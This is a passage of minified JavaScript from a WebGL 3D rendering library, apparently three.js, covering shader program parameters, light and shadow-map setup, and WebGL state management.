L=t.getRenderTarget(),D=!0===_.isInstancedMesh,I=!0===_.isBatchedMesh,U=!!a.map,N=!!a.matcap,F=!!b,k=!!a.aoMap,z=!!a.lightMap,B=!!a.bumpMap,H=!!a.normalMap,V=!!a.displacementMap,G=!!a.emissiveMap,j=!!a.metalnessMap,W=!!a.roughnessMap,X=a.anisotropy>0,q=a.clearcoat>0,Y=a.dispersion>0,K=a.iridescence>0,Z=a.sheen>0,$=a.transmission>0,J=X&&!!a.anisotropyMap,Q=q&&!!a.clearcoatMap,tt=q&&!!a.clearcoatNormalMap,et=q&&!!a.clearcoatRoughnessMap,nt=K&&!!a.iridescenceMap,it=K&&!!a.iridescenceThicknessMap,rt=Z&&!!a.sheenColorMap,at=Z&&!!a.sheenRoughnessMap,ot=!!a.specularMap,st=!!a.specularColorMap,lt=!!a.specularIntensityMap,ct=$&&!!a.transmissionMap,ht=$&&!!a.thicknessMap,ut=!!a.gradientMap,dt=!!a.alphaMap,pt=a.alphaTest>0,ft=!!a.alphaHash,mt=!!a.extensions;let gt=0;a.toneMapped&&(null!==L&&!0!==L.isXRRenderTarget||(gt=t.toneMapping));const _t={shaderID:S,shaderType:a.type,shaderName:a.name,vertexShader:T,fragmentShader:A,defines:a.defines,customVertexShaderID:C,customFragmentShaderID:R,isRawShaderMaterial:!0===a.isRawShaderMaterial,glslVersion:a.glslVersion,precision:p,batching:I,batchingColor:I&&null!==_._colorsTexture,instancing:D,instancingColor:D&&null!==_.instanceColor,instancingMorph:D&&null!==_.morphTexture,supportsVertexTextures:d,outputColorSpace:null===L?t.outputColorSpace:!0===L.isXRRenderTarget?L.texture.colorSpace:Ht,alphaToCoverage:!!a.alphaToCoverage,map:U,matcap:N,envMap:F,envMapMode:F&&b.mapping,envMapCubeUVHeight:M,aoMap:k,lightMap:z,bumpMap:B,normalMap:H,displacementMap:d&&V,emissiveMap:G,normalMapObjectSpace:H&&1===a.normalMapType,normalMapTangentSpace:H&&0===a.normalMapType,metalnessMap:j,roughnessMap:W,anisotropy:X,anisotropyMap:J,clearcoat:q,clearcoatMap:Q,clearcoatNormalMap:tt,clearcoatRoughnessMap:et,dispersion:Y,iridescence:K,iridescenceMap:nt,iridescenceThicknessMap:it,sheen:Z,sheenColorMap:rt,sheenRoughnessMap:at,specularMap:ot,specularColorMap:st,specularIntensityMap:lt,transmission:$,transmissionMap:ct,thicknessMap:ht,gradientMap:ut,opaque:!1===a.transparent&&1===a.blending&&!1===a.alphaToCoverage,alphaMap:dt,alphaTest:pt,alphaHash:ft,combine:a.combine,mapUv:U&&m(a.map.channel),aoMapUv:k&&m(a.aoMap.channel),lightMapUv:z&&m(a.lightMap.channel),bumpMapUv:B&&m(a.bumpMap.channel),normalMapUv:H&&m(a.normalMap.channel),displacementMapUv:V&&m(a.displacementMap.channel),emissiveMapUv:G&&m(a.emissiveMap.channel),metalnessMapUv:j&&m(a.metalnessMap.channel),roughnessMapUv:W&&m(a.roughnessMap.channel),anisotropyMapUv:J&&m(a.anisotropyMap.channel),clearcoatMapUv:Q&&m(a.clearcoatMap.channel),clearcoatNormalMapUv:tt&&m(a.clearcoatNormalMap.channel),clearcoatRoughnessMapUv:et&&m(a.clearcoatRoughnessMap.channel),iridescenceMapUv:nt&&m(a.iridescenceMap.channel),iridescenceThicknessMapUv:it&&m(a.iridescenceThicknessMap.channel),sheenColorMapUv:rt&&m(a.sheenColorMap.channel),sheenRoughnessMapUv:at&&m(a.sheenRoughnessMap.channel),specularMapUv:ot&&m(a.specularMap.channel),specularColorMapUv:st&&m(a.specularColorMap.channel),specularIntensityMapUv:lt&&m(a.specularIntensityMap.channel),transmissionMapUv:ct&&m(a.transmissionMap.channel),thicknessMapUv:ht&&m(a.thicknessMap.channel),alphaMapUv:dt&&m(a.alphaMap.channel),vertexTangents:!!y.attributes.tangent&&(H||X),vertexColors:a.vertexColors,vertexAlphas:!0===a.vertexColors&&!!y.attributes.color&&4===y.attributes.color.itemSize,pointsUvs:!0===_.isPoints&&!!y.attributes.uv&&(U||dt),fog:!!v,useFog:!0===a.fog,fogExp2:!!v&&v.isFogExp2,flatShading:!0===a.flatShading,sizeAttenuation:!0===a.sizeAttenuation,logarithmicDepthBuffer:u,skinning:!0===_.isSkinnedMesh,morphTargets:void 0!==y.morphAttributes.position,morphNormals:void 0!==y.morphAttributes.normal,morphColors:void 0!==y.morphAttributes.color,morphTargetsCount:w,morphTextureStride:P,numDirLights:s.directional.length,numPointLights:s.point.length,numSpotLights:s.spot.length,numSpotLightMaps:s.spotLightMap.length,numRectAreaLights:s.rectArea.length,numHemiLights:s.hemi.length,numDirLightShadows:s.directionalShadowMap.length,numPointLightShadows:s.pointShadowMap.length,numSpotLightShadows:s.spotShadowMap.length,numSpotLightShadowsWithMaps:s.numSpotLightShadowsWithMaps,numLightProbes:s.numLightProbes,numClippingPlanes:o.numPlanes,numClipIntersection:o.numIntersection,dithering:a.dithering,shadowMapEnabled:t.shadowMap.enabled&&h.length>0,shadowMapType:t.shadowMap.type,toneMapping:gt,decodeVideoTexture:U&&!0===a.map.isVideoTexture&&Pe.getTransfer(a.map.colorSpace)===Wt,premultipliedAlpha:a.premultipliedAlpha,doubleSided:2===a.side,flipSided:1===a.side,useDepthPacking:a.depthPacking>=0,depthPacking:a.depthPacking||0,index0AttributeName:a.index0AttributeName,extensionClipCullDistance:mt&&!0===a.extensions.clipCullDistance&&i.has(\"WEBGL_clip_cull_distance\"),extensionMultiDraw:(mt&&!0===a.extensions.multiDraw||I)&&i.has(\"WEBGL_multi_draw\"),rendererExtensionParallelShaderCompile:i.has(\"KHR_parallel_shader_compile\"),customProgramCacheKey:a.customProgramCacheKey()};return _t.vertexUv1s=c.has(1),_t.vertexUv2s=c.has(2),_t.vertexUv3s=c.has(3),c.clear(),_t},getProgramCacheKey:function(e){const n=[];if(e.shaderID?n.push(e.shaderID):(n.push(e.customVertexShaderID),n.push(e.customFragmentShaderID)),void 0!==e.defines)for(const t in e.defines)n.push(t),n.push(e.defines[t]);return!1===e.isRawShaderMaterial&&(!function(t,e){t.push(e.precision),t.push(e.outputColorSpace),t.push(e.envMapMode),t.push(e.envMapCubeUVHeight),t.push(e.mapUv),t.push(e.alphaMapUv),t.push(e.lightMapUv),t.push(e.aoMapUv),t.push(e.bumpMapUv),t.push(e.normalMapUv),t.push(e.displacementMapUv),t.push(e.emissiveMapUv),t.push(e.metalnessMapUv),t.push(e.roughnessMapUv),t.push(e.anisotropyMapUv),t.push(e.clearcoatMapUv),t.push(e.clearcoatNormalMapUv),t.push(e.clearcoatRoughnessMapUv),t.push(e.iridescenceMapUv),t.push(e.iridescenceThicknessMapUv),t.push(e.sheenColorMapUv),t.push(e.sheenRoughnessMapUv),t.push(e.specularMapUv),t.push(e.specularColorMapUv),t.push(e.specularIntensityMapUv),t.push(e.transmissionMapUv),t.push(e.thicknessMapUv),t.push(e.combine),t.push(e.fogExp2),t.push(e.sizeAttenuation),t.push(e.morphTargetsCount),t.push(e.morphAttributeCount),t.push(e.numDirLights),t.push(e.numPointLights),t.push(e.numSpotLights),t.push(e.numSpotLightMaps),t.push(e.numHemiLights),t.push(e.numRectAreaLights),t.push(e.numDirLightShadows),t.push(e.numPointLightShadows),t.push(e.numSpotLightShadows),t.push(e.numSpotLightShadowsWithMaps),t.push(e.numLightProbes),t.push(e.shadowMapType),t.push(e.toneMapping),t.push(e.numClippingPlanes),t.push(e.numClipIntersection),t.push(e.depthPacking)}(n,e),function(t,e){s.disableAll(),e.supportsVertexTextures&&s.enable(0);e.instancing&&s.enable(1);e.instancingColor&&s.enable(2);e.instancingMorph&&s.enable(3);e.matcap&&s.enable(4);e.envMap&&s.enable(5);e.normalMapObjectSpace&&s.enable(6);e.normalMapTangentSpace&&s.enable(7);e.clearcoat&&s.enable(8);e.iridescence&&s.enable(9);e.alphaTest&&s.enable(10);e.vertexColors&&s.enable(11);e.vertexAlphas&&s.enable(12);e.vertexUv1s&&s.enable(13);e.vertexUv2s&&s.enable(14);e.vertexUv3s&&s.enable(15);e.vertexTangents&&s.enable(16);e.anisotropy&&s.enable(17);e.alphaHash&&s.enable(18);e.batching&&s.enable(19);e.dispersion&&s.enable(20);e.batchingColor&&s.enable(21);t.push(s.mask),s.disableAll(),e.fog&&s.enable(0);e.useFog&&s.enable(1);e.flatShading&&s.enable(2);e.logarithmicDepthBuffer&&s.enable(3);e.skinning&&s.enable(4);e.morphTargets&&s.enable(5);e.morphNormals&&s.enable(6);e.morphColors&&s.enable(7);e.premultipliedAlpha&&s.enable(8);e.shadowMapEnabled&&s.enable(9);e.doubleSided&&s.enable(10);e.flipSided&&s.enable(11);e.useDepthPacking&&s.enable(12);e.dithering&&s.enable(13);e.transmission&&s.enable(14);e.sheen&&s.enable(15);e.opaque&&s.enable(16);e.pointsUvs&&s.enable(17);e.decodeVideoTexture&&s.enable(18);e.alphaToCoverage&&s.enable(19);t.push(s.mask)}(n,e),n.push(t.outputColorSpace)),n.push(e.customProgramCacheKey),n.join()},getUniforms:function(t){const e=f[t.type];let n;if(e){const t=Sr[e];n=tr.clone(t.uniforms)}else n=t.uniforms;return n},acquireProgram:function(e,n){let i;for(let t=0,e=h.length;t<e;t++){const e=h[t];if(e.cacheKey===n){i=e,++i.usedTimes;break}}return void 0===i&&(i=new Ro(t,n,e,a),h.push(i)),i},releaseProgram:function(t){if(0==--t.usedTimes){const e=h.indexOf(t);h[e]=h[h.length-1],h.pop(),t.destroy()}},releaseShaderCache:function(t){l.remove(t)},programs:h,dispose:function(){l.dispose()}}}function Oo(){let t=new WeakMap;return{has:function(e){return t.has(e)},get:function(e){let n=t.get(e);return void 0===n&&(n={},t.set(e,n)),n},remove:function(e){t.delete(e)},update:function(e,n,i){t.get(e)[n]=i},dispose:function(){t=new WeakMap}}}function Uo(t,e){return t.groupOrder!==e.groupOrder?t.groupOrder-e.groupOrder:t.renderOrder!==e.renderOrder?t.renderOrder-e.renderOrder:t.material.id!==e.material.id?t.material.id-e.material.id:t.z!==e.z?t.z-e.z:t.id-e.id}function No(t,e){return t.groupOrder!==e.groupOrder?t.groupOrder-e.groupOrder:t.renderOrder!==e.renderOrder?t.renderOrder-e.renderOrder:t.z!==e.z?e.z-t.z:t.id-e.id}function Fo(){const t=[];let e=0;const n=[],i=[],r=[];function a(n,i,r,a,o,s){let l=t[e];return void 0===l?(l={id:n.id,object:n,geometry:i,material:r,groupOrder:a,renderOrder:n.renderOrder,z:o,group:s},t[e]=l):(l.id=n.id,l.object=n,l.geometry=i,l.material=r,l.groupOrder=a,l.renderOrder=n.renderOrder,l.z=o,l.group=s),e++,l}return{opaque:n,transmissive:i,transparent:r,init:function(){e=0,n.length=0,i.length=0,r.length=0},push:function(t,e,o,s,l,c){const h=a(t,e,o,s,l,c);o.transmission>0?i.push(h):!0===o.transparent?r.push(h):n.push(h)},unshift:function(t,e,o,s,l,c){const h=a(t,e,o,s,l,c);o.transmission>0?i.unshift(h):!0===o.transparent?r.unshift(h):n.unshift(h)},finish:function(){for(let n=e,i=t.length;n<i;n++){const e=t[n];if(null===e.id)break;e.id=null,e.object=null,e.geometry=null,e.material=null,e.group=null}},sort:function(t,e){n.length>1&&n.sort(t||Uo),i.length>1&&i.sort(e||No),r.length>1&&r.sort(e||No)}}}function ko(){let t=new WeakMap;return{get:function(e,n){const i=t.get(e);let r;return void 0===i?(r=new Fo,t.set(e,[r])):n>=i.length?(r=new Fo,i.push(r)):r=i[n],r},dispose:function(){t=new WeakMap}}}function zo(){const t={};return{get:function(e){if(void 0!==t[e.id])return t[e.id];let n;switch(e.type){case\"DirectionalLight\":n={direction:new Xe,color:new di};break;case\"SpotLight\":n={position:new Xe,direction:new Xe,color:new di,distance:0,coneCos:0,penumbraCos:0,decay:0};break;case\"PointLight\":n={position:new Xe,color:new di,distance:0,decay:0};break;case\"HemisphereLight\":n={direction:new Xe,skyColor:new di,groundColor:new di};break;case\"RectAreaLight\":n={color:new di,position:new Xe,halfWidth:new Xe,halfHeight:new Xe}}return t[e.id]=n,n}}}let Bo=0;function Ho(t,e){return(e.castShadow?2:0)-(t.castShadow?2:0)+(e.map?1:0)-(t.map?1:0)}function Vo(t){const e=new zo,n=function(){const t={};return{get:function(e){if(void 0!==t[e.id])return t[e.id];let n;switch(e.type){case\"DirectionalLight\":case\"SpotLight\":n={shadowIntensity:1,shadowBias:0,shadowNormalBias:0,shadowRadius:1,shadowMapSize:new ve};break;case\"PointLight\":n={shadowIntensity:1,shadowBias:0,shadowNormalBias:0,shadowRadius:1,shadowMapSize:new ve,shadowCameraNear:1,shadowCameraFar:1e3}}return t[e.id]=n,n}}}(),i={version:0,hash:{directionalLength:-1,pointLength:-1,spotLength:-1,rectAreaLength:-1,hemiLength:-1,numDirectionalShadows:-1,numPointShadows:-1,numSpotShadows:-1,numSpotMaps:-1,numLightProbes:-1},ambient:[0,0,0],probe:[],directional:[],directionalShadow:[],directionalShadowMap:[],directionalShadowMatrix:[],spot:[],spotLightMap:[],spotShadow:[],spotShadowMap:[],spotLightMatrix:[],rectArea:[],rectAreaLTC1:null,rectAreaLTC2:null,point:[],pointShadow:[],pointShadowMap:[],pointShadowMatrix:[],hemi:[],numSpotLightShadowsWithMaps:0,numLightProbes:0};for(let t=0;t<9;t++)i.probe.push(new Xe);const r=new Xe,a=new Sn,o=new Sn;return{setup:function(r){let a=0,o=0,s=0;for(let t=0;t<9;t++)i.probe[t].set(0,0,0);let l=0,c=0,h=0,u=0,d=0,p=0,f=0,m=0,g=0,_=0,v=0;r.sort(Ho);for(let t=0,y=r.length;t<y;t++){const y=r[t],x=y.color,b=y.intensity,M=y.distance,S=y.shadow&&y.shadow.map?y.shadow.map.texture:null;if(y.isAmbientLight)a+=x.r*b,o+=x.g*b,s+=x.b*b;else if(y.isLightProbe){for(let t=0;t<9;t++)i.probe[t].addScaledVector(y.sh.coefficients[t],b);v++}else if(y.isDirectionalLight){const t=e.get(y);if(t.color.copy(y.color).multiplyScalar(y.intensity),y.castShadow){const t=y.shadow,e=n.get(y);e.shadowIntensity=t.intensity,e.shadowBias=t.bias,e.shadowNormalBias=t.normalBias,e.shadowRadius=t.radius,e.shadowMapSize=t.mapSize,i.directionalShadow[l]=e,i.directionalShadowMap[l]=S,i.directionalShadowMatrix[l]=y.shadow.matrix,p++}i.directional[l]=t,l++}else if(y.isSpotLight){const t=e.get(y);t.position.setFromMatrixPosition(y.matrixWorld),t.color.copy(x).multiplyScalar(b),t.distance=M,t.coneCos=Math.cos(y.angle),t.penumbraCos=Math.cos(y.angle*(1-y.penumbra)),t.decay=y.decay,i.spot[h]=t;const r=y.shadow;if(y.map&&(i.spotLightMap[g]=y.map,g++,r.updateMatrices(y),y.castShadow&&_++),i.spotLightMatrix[h]=r.matrix,y.castShadow){const t=n.get(y);t.shadowIntensity=r.intensity,t.shadowBias=r.bias,t.shadowNormalBias=r.normalBias,t.shadowRadius=r.radius,t.shadowMapSize=r.mapSize,i.spotShadow[h]=t,i.spotShadowMap[h]=S,m++}h++}else if(y.isRectAreaLight){const t=e.get(y);t.color.copy(x).multiplyScalar(b),t.halfWidth.set(.5*y.width,0,0),t.halfHeight.set(0,.5*y.height,0),i.rectArea[u]=t,u++}else if(y.isPointLight){const t=e.get(y);if(t.color.copy(y.color).multiplyScalar(y.intensity),t.distance=y.distance,t.decay=y.decay,y.castShadow){const t=y.shadow,e=n.get(y);e.shadowIntensity=t.intensity,e.shadowBias=t.bias,e.shadowNormalBias=t.normalBias,e.shadowRadius=t.radius,e.shadowMapSize=t.mapSize,e.shadowCameraNear=t.camera.near,e.shadowCameraFar=t.camera.far,i.pointShadow[c]=e,i.pointShadowMap[c]=S,i.pointShadowMatrix[c]=y.shadow.matrix,f++}i.point[c]=t,c++}else if(y.isHemisphereLight){const t=e.get(y);t.skyColor.copy(y.color).multiplyScalar(b),t.groundColor.copy(y.groundColor).multiplyScalar(b),i.hemi[d]=t,d++}}u>0&&(!0===t.has(\"OES_texture_float_linear\")?(i.rectAreaLTC1=Mr.LTC_FLOAT_1,i.rectAreaLTC2=Mr.LTC_FLOAT_2):(i.rectAreaLTC1=Mr.LTC_HALF_1,i.rectAreaLTC2=Mr.LTC_HALF_2)),i.ambient[0]=a,i.ambient[1]=o,i.ambient[2]=s;const y=i.hash;y.directionalLength===l&&y.pointLength===c&&y.spotLength===h&&y.rectAreaLength===u&&y.hemiLength===d&&y.numDirectionalShadows===p&&y.numPointShadows===f&&y.numSpotShadows===m&&y.numSpotMaps===g&&y.numLightProbes===v||(i.directional.length=l,i.spot.length=h,i.rectArea.length=u,i.point.length=c,i.hemi.length=d,i.directionalShadow.length=p,i.directionalShadowMap.length=p,i.pointShadow.length=f,i.pointShadowMap.length=f,i.spotShadow.length=m,i.spotShadowMap.length=m,i.directionalShadowMatrix.length=p,i.pointShadowMatrix.length=f,i.spotLightMatrix.length=m+g-_,i.spotLightMap.length=g,i.numSpotLightShadowsWithMaps=_,i.numLightProbes=v,y.directionalLength=l,y.pointLength=c,y.spotLength=h,y.rectAreaLength=u,y.hemiLength=d,y.numDirectionalShadows=p,y.numPointShadows=f,y.numSpotShadows=m,y.numSpotMaps=g,y.numLightProbes=v,i.version=Bo++)},setupView:function(t,e){let n=0,s=0,l=0,c=0,h=0;const u=e.matrixWorldInverse;for(let e=0,d=t.length;e<d;e++){const d=t[e];if(d.isDirectionalLight){const t=i.directional[n];t.direction.setFromMatrixPosition(d.matrixWorld),r.setFromMatrixPosition(d.target.matrixWorld),t.direction.sub(r),t.direction.transformDirection(u),n++}else if(d.isSpotLight){const t=i.spot[l];t.position.setFromMatrixPosition(d.matrixWorld),t.position.applyMatrix4(u),t.direction.setFromMatrixPosition(d.matrixWorld),r.setFromMatrixPosition(d.target.matrixWorld),t.direction.sub(r),t.direction.transformDirection(u),l++}else if(d.isRectAreaLight){const t=i.rectArea[c];t.position.setFromMatrixPosition(d.matrixWorld),t.position.applyMatrix4(u),o.identity(),a.copy(d.matrixWorld),a.premultiply(u),o.extractRotation(a),t.halfWidth.set(.5*d.width,0,0),t.halfHeight.set(0,.5*d.height,0),t.halfWidth.applyMatrix4(o),t.halfHeight.applyMatrix4(o),c++}else if(d.isPointLight){const t=i.point[s];t.position.setFromMatrixPosition(d.matrixWorld),t.position.applyMatrix4(u),s++}else if(d.isHemisphereLight){const t=i.hemi[h];t.direction.setFromMatrixPosition(d.matrixWorld),t.direction.transformDirection(u),h++}}},state:i}}function Go(t){const e=new Vo(t),n=[],i=[];const r={lightsArray:n,shadowsArray:i,camera:null,lights:e,transmissionRenderTarget:{}};return{init:function(t){r.camera=t,n.length=0,i.length=0},state:r,setupLights:function(){e.setup(n)},setupLightsView:function(t){e.setupView(n,t)},pushLight:function(t){n.push(t)},pushShadow:function(t){i.push(t)}}}function jo(t){let e=new WeakMap;return{get:function(n,i=0){const r=e.get(n);let a;return void 0===r?(a=new Go(t),e.set(n,[a])):i>=r.length?(a=new Go(t),r.push(a)):a=r[i],a},dispose:function(){e=new WeakMap}}}class Wo extends mi{constructor(t){super(),this.isMeshDepthMaterial=!0,this.type=\"MeshDepthMaterial\",this.depthPacking=3200,this.map=null,this.alphaMap=null,this.displacementMap=null,this.displacementScale=1,this.displacementBias=0,this.wireframe=!1,this.wireframeLinewidth=1,this.setValues(t)}copy(t){return super.copy(t),this.depthPacking=t.depthPacking,this.map=t.map,this.alphaMap=t.alphaMap,this.displacementMap=t.displacementMap,this.displacementScale=t.displacementScale,this.displacementBias=t.displacementBias,this.wireframe=t.wireframe,this.wireframeLinewidth=t.wireframeLinewidth,this}}class Xo extends mi{constructor(t){super(),this.isMeshDistanceMaterial=!0,this.type=\"MeshDistanceMaterial\",this.map=null,this.alphaMap=null,this.displacementMap=null,this.displacementScale=1,this.displacementBias=0,this.setValues(t)}copy(t){return super.copy(t),this.map=t.map,this.alphaMap=t.alphaMap,this.displacementMap=t.displacementMap,this.displacementScale=t.displacementScale,this.displacementBias=t.displacementBias,this}}function qo(t,e,n){let i=new _r;const r=new ve,a=new ve,o=new Be,s=new Wo({depthPacking:3201}),l=new Xo,c={},h=n.maxTextureSize,f={[u]:1,[d]:0,[p]:2},m=new er({defines:{VSM_SAMPLES:8},uniforms:{shadow_pass:{value:null},resolution:{value:new ve},radius:{value:4}},vertexShader:\"void main() {\\n\\tgl_Position = vec4( position, 1.0 );\\n}\",fragmentShader:\"uniform sampler2D shadow_pass;\\nuniform vec2 resolution;\\nuniform float radius;\\n#include <packing>\\nvoid main() {\\n\\tconst float samples = float( VSM_SAMPLES );\\n\\tfloat mean = 0.0;\\n\\tfloat squared_mean = 0.0;\\n\\tfloat uvStride = samples <= 1.0 ? 0.0 : 2.0 / ( samples - 1.0 );\\n\\tfloat uvStart = samples <= 1.0 ? 0.0 : - 1.0;\\n\\tfor ( float i = 0.0; i < samples; i ++ ) {\\n\\t\\tfloat uvOffset = uvStart + i * uvStride;\\n\\t\\t#ifdef HORIZONTAL_PASS\\n\\t\\t\\tvec2 distribution = unpackRGBATo2Half( texture2D( shadow_pass, ( gl_FragCoord.xy + vec2( uvOffset, 0.0 ) * radius ) / resolution ) );\\n\\t\\t\\tmean += distribution.x;\\n\\t\\t\\tsquared_mean += distribution.y * distribution.y + distribution.x * distribution.x;\\n\\t\\t#else\\n\\t\\t\\tfloat depth = unpackRGBAToDepth( texture2D( shadow_pass, ( gl_FragCoord.xy + vec2( 0.0, uvOffset ) * radius ) / resolution ) );\\n\\t\\t\\tmean += depth;\\n\\t\\t\\tsquared_mean += depth * depth;\\n\\t\\t#endif\\n\\t}\\n\\tmean = mean / samples;\\n\\tsquared_mean = squared_mean / samples;\\n\\tfloat std_dev = sqrt( squared_mean - mean * mean );\\n\\tgl_FragColor = pack2HalfToRGBA( vec2( mean, std_dev ) );\\n}\"}),g=m.clone();g.defines.HORIZONTAL_PASS=1;const _=new Pi;_.setAttribute(\"position\",new yi(new Float32Array([-1,-1,.5,3,-1,.5,-1,3,.5]),3));const v=new Yi(_,m),y=this;this.enabled=!1,this.autoUpdate=!0,this.needsUpdate=!1,this.type=1;let x=this.type;function b(n,i){const a=e.update(v);m.defines.VSM_SAMPLES!==n.blurSamples&&(m.defines.VSM_SAMPLES=n.blurSamples,g.defines.VSM_SAMPLES=n.blurSamples,m.needsUpdate=!0,g.needsUpdate=!0),null===n.mapPass&&(n.mapPass=new Ve(r.x,r.y)),m.uniforms.shadow_pass.value=n.map.texture,m.uniforms.resolution.value=n.mapSize,m.uniforms.radius.value=n.radius,t.setRenderTarget(n.mapPass),t.clear(),t.renderBufferDirect(i,null,a,m,v,null),g.uniforms.shadow_pass.value=n.mapPass.texture,g.uniforms.resolution.value=n.mapSize,g.uniforms.radius.value=n.radius,t.setRenderTarget(n.map),t.clear(),t.renderBufferDirect(i,null,a,g,v,null)}function M(e,n,i,r){let a=null;const o=!0===i.isPointLight?e.customDistanceMaterial:e.customDepthMaterial;if(void 0!==o)a=o;else if(a=!0===i.isPointLight?l:s,t.localClippingEnabled&&!0===n.clipShadows&&Array.isArray(n.clippingPlanes)&&0!==n.clippingPlanes.length||n.displacementMap&&0!==n.displacementScale||n.alphaMap&&n.alphaTest>0||n.map&&n.alphaTest>0){const t=a.uuid,e=n.uuid;let i=c[t];void 0===i&&(i={},c[t]=i);let r=i[e];void 0===r&&(r=a.clone(),i[e]=r,n.addEventListener(\"dispose\",E)),a=r}if(a.visible=n.visible,a.wireframe=n.wireframe,a.side=3===r?null!==n.shadowSide?n.shadowSide:n.side:null!==n.shadowSide?n.shadowSide:f[n.side],a.alphaMap=n.alphaMap,a.alphaTest=n.alphaTest,a.map=n.map,a.clipShadows=n.clipShadows,a.clippingPlanes=n.clippingPlanes,a.clipIntersection=n.clipIntersection,a.displacementMap=n.displacementMap,a.displacementScale=n.displacementScale,a.displacementBias=n.displacementBias,a.wireframeLinewidth=n.wireframeLinewidth,a.linewidth=n.linewidth,!0===i.isPointLight&&!0===a.isMeshDistanceMaterial){t.properties.get(a).light=i}return a}function S(n,r,a,o,s){if(!1===n.visible)return;if(n.layers.test(r.layers)&&(n.isMesh||n.isLine||n.isPoints)&&(n.castShadow||n.receiveShadow&&3===s)&&(!n.frustumCulled||i.intersectsObject(n))){n.modelViewMatrix.multiplyMatrices(a.matrixWorldInverse,n.matrixWorld);const i=e.update(n),l=n.material;if(Array.isArray(l)){const e=i.groups;for(let c=0,h=e.length;c<h;c++){const h=e[c],u=l[h.materialIndex];if(u&&u.visible){const e=M(n,u,o,s);n.onBeforeShadow(t,n,r,a,i,e,h),t.renderBufferDirect(a,null,i,e,n,h),n.onAfterShadow(t,n,r,a,i,e,h)}}}else if(l.visible){const e=M(n,l,o,s);n.onBeforeShadow(t,n,r,a,i,e,null),t.renderBufferDirect(a,null,i,e,n,null),n.onAfterShadow(t,n,r,a,i,e,null)}}const l=n.children;for(let t=0,e=l.length;t<e;t++)S(l[t],r,a,o,s)}function E(t){t.target.removeEventListener(\"dispose\",E);for(const e in c){const n=c[e],i=t.target.uuid;if(i in n){n[i].dispose(),delete n[i]}}}this.render=function(e,n,s){if(!1===y.enabled)return;if(!1===y.autoUpdate&&!1===y.needsUpdate)return;if(0===e.length)return;const l=t.getRenderTarget(),c=t.getActiveCubeFace(),u=t.getActiveMipmapLevel(),d=t.state;d.setBlending(0),d.buffers.color.setClear(1,1,1,1),d.buffers.depth.setTest(!0),d.setScissorTest(!1);const p=3!==x&&3===this.type,f=3===x&&3!==this.type;for(let l=0,c=e.length;l<c;l++){const c=e[l],u=c.shadow;if(void 0===u){console.warn(\"THREE.WebGLShadowMap:\",c,\"has no shadow.\");continue}if(!1===u.autoUpdate&&!1===u.needsUpdate)continue;r.copy(u.mapSize);const m=u.getFrameExtents();if(r.multiply(m),a.copy(u.mapSize),(r.x>h||r.y>h)&&(r.x>h&&(a.x=Math.floor(h/m.x),r.x=a.x*m.x,u.mapSize.x=a.x),r.y>h&&(a.y=Math.floor(h/m.y),r.y=a.y*m.y,u.mapSize.y=a.y)),null===u.map||!0===p||!0===f){const t=3!==this.type?{minFilter:k,magFilter:k}:{};null!==u.map&&u.map.dispose(),u.map=new Ve(r.x,r.y,t),u.map.texture.name=c.name+\".shadowMap\",u.camera.updateProjectionMatrix()}t.setRenderTarget(u.map),t.clear();const g=u.getViewportCount();for(let t=0;t<g;t++){const e=u.getViewport(t);o.set(a.x*e.x,a.y*e.y,a.x*e.z,a.y*e.w),d.viewport(o),u.updateMatrices(c,t),i=u.getFrustum(),S(n,s,u.camera,c,this.type)}!0!==u.isPointLightShadow&&3===this.type&&b(u,s),u.needsUpdate=!1}x=this.type,y.needsUpdate=!1,t.setRenderTarget(l,c,u)}}function Yo(t){const e=new function(){let e=!1;const n=new Be;let i=null;const r=new Be(0,0,0,0);return{setMask:function(n){i===n||e||(t.colorMask(n,n,n,n),i=n)},setLocked:function(t){e=t},setClear:function(e,i,a,o,s){!0===s&&(e*=o,i*=o,a*=o),n.set(e,i,a,o),!1===r.equals(n)&&(t.clearColor(e,i,a,o),r.copy(n))},reset:function(){e=!1,i=null,r.set(-1,0,0,0)}}},n=new function(){let e=!1,n=null,i=null,r=null;return{setTest:function(e){e?it(t.DEPTH_TEST):rt(t.DEPTH_TEST)},setMask:function(i){n===i||e||(t.depthMask(i),n=i)},setFunc:function(e){if(i!==e){switch(e){case 0:t.depthFunc(t.NEVER);break;case 1:t.depthFunc(t.ALWAYS);break;case 2:t.depthFunc(t.LESS);break;case 3:default:t.depthFunc(t.LEQUAL);break;case 4:t.depthFunc(t.EQUAL);break;case 5:t.depthFunc(t.GEQUAL);break;case 6:t.depthFunc(t.GREATER);break;case 7:t.depthFunc(t.NOTEQUAL)}i=e}},setLocked:function(t){e=t},setClear:function(e){r!==e&&(t.clearDepth(e),r=e)},reset:function(){e=!1,n=null,i=null,r=null}}},i=new function(){let e=!1,n=null,i=null,r=null,a=null,o=null,s=null,l=null,c=null;return{setTest:function(n){e||(n?it(t.STENCIL_TEST):rt(t.STENCIL_TEST))},setMask:function(i){n===i||e||(t.stencilMask(i),n=i)},setFunc:function(e,n,o){i===e&&r===n&&a===o||(t.stencilFunc(e,n,o),i=e,r=n,a=o)},setOp:function(e,n,i){o===e&&s===n&&l===i||(t.stencilOp(e,n,i),o=e,s=n,l=i)},setLocked:function(t){e=t},setClear:function(e){c!==e&&(t.clearStencil(e),c=e)},reset:function(){e=!1,n=null,i=null,r=null,a=null,o=null,s=null,l=null,c=null}}},r=new WeakMap,a=new WeakMap;let o={},s={},l=new WeakMap,c=[],h=null,u=!1,d=null,p=null,D=null,I=null,O=null,U=null,N=null,F=new di(0,0,0),k=0,z=!1,B=null,H=null,V=null,G=null,j=null;const W=t.getParameter(t.MAX_COMBINED_TEXTURE_IMAGE_UNITS);let X=!1,q=0;const Y=t.getParameter(t.VERSION);-1!==Y.indexOf(\"WebGL\")?(q=parseFloat(/^WebGL (\\d)/.exec(Y)[1]),X=q>=1):-1!==Y.indexOf(\"OpenGL ES\")&&(q=parseFloat(/^OpenGL ES (\\d)/.exec(Y)[1]),X=q>=2);let K=null,Z={};const $=t.getParameter(t.SCISSOR_BOX),J=t.getParameter(t.VIEWPORT),Q=(new Be).fromArray($),tt=(new Be).fromArray(J);function et(e,n,i,r){const a=new Uint8Array(4),o=t.createTexture();t.bindTexture(e,o),t.texParameteri(e,t.TEXTURE_MIN_FILTER,t.NEAREST),t.texParameteri(e,t.TEXTURE_MAG_FILTER,t.NEAREST);for(let 